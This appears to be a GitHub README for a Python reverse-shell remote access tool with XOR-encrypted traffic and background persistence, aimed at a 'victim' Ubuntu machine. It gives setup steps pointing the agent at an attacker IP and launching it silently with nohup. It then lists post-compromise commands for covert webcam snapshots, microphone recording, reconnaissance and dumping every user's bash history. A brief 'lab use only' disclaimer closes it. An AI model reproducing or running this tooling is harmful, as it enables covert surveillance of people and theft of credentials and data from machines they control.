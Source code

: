 # 🐍 Reverse Shell RAT with XOR Encryption

## 📘 Learning Path

This project started as a basic Python shell and evolved into a stealthy, encrypted reverse shell:

1. 🛠️ **Basic Shell**: Socket + subprocess commands
2. 🔁 **Hybrid (Bind + Reverse)**
3. 🔄 **Reverse-Only Shell** (more stealthy)
4. 🔐 **XOR Encryption**
5. 🧾 **Session Logging**
6. 👻 **Background Execution + Persistence**
7. 🔭 **Cool Shell Command Extensions**

---

## 🎯 Overview

This tool enables remote shell access from a victim Ubuntu machine to a Kali controller using encrypted reverse sockets.

---

## ⚙️ Features

- Reverse TCP shell
- XOR-encrypted traffic
- Command execution with shell output
- Screenshot support
- Timestamped logging
- Runs silently in background
- No external Python packages

---

## 🚀 How to Use

### Kali (Attacker)

```bash
python3 listener.py
```

### Ubuntu (Victim)

Edit agent file:

```python
REVERSE_HOST = "192.168.56.103"  # ← change to Kali IP
```

Then run it in the background:

```bash
pkill -f agent.py
nohup python3 agent_reverse.py &>/dev/null &
```

---

## 🎮 Cool Shell Commands to Run

### 📷 Webcam Snapshot

```bash
fswebcam -r 640x480 --jpeg 85 -D 1 /tmp/webcam.jpg && cat /tmp/webcam.jpg
```

**Install:**
```bash
sudo apt install fswebcam
```

---

### 🎤 Microphone Audio (10 sec)

```bash
arecord -f cd -d 10 /tmp/audio.wav && cat /tmp/audio.wav
```

**Install:**
```bash
sudo apt install alsa-utils
```

---

### 🧠 Recon Combo

```bash
whoami && hostname && uname -a && ip a && ps aux
```

Get full snapshot of identity, system info, IP, and processes.

---

### 📁 List Bash History

```bash
find /home -name .bash_history -exec cat {} \;
```

---

## ⚠️ Ethical Use Only

This tool is for lab use only. Do not use it on any system without explicit permission.

---

